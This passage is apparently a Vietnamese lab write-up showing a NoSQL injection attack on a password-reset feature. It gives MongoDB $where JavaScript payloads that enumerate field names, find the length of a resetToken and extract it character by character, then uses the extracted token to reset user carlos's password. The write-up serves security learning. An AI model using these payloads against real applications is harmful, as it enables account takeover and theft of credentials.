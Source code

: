 ```"$where":"function(){ if(Object.keys(this)[1].match('username')) return 1; else 0; }"```

```"$where":"function(){ if(Object.keys(this)[4].charAt(0) == 'a') return 1; else 0; }"```

![alt text](./img/lab4-9.png)

==>Object.keys(this)[4] là "resetToken"

- Sử dụng payload ```"$where":"function(){ if(this.resetToken.length == 1) return 1; else 0; }"``` để biết độ dài của ```reset token```:

![alt text](./img/lab4-10.png)

==>length là 16.

- Sử dụng payload: ```"$where":"function(){ if(this.resetToken.charAt(i) == 'a') return 1; else 0; }"``` để trích xuất giá trị của resetToken:

![alt text](./img/lab4-11.png)

==>Giá trị của resetToken: "d84542511ecabd6f"

- Giờ truy cập vào trang Forgot-password rồi chèn thêm parameter ```resetToken= "d84542511ecabd6f"```:

![alt text](./img/lab4-12.png)


==>Đã ra 1 giao diện để reset password cho carlos user.

==>Đổi password và login vô là xong.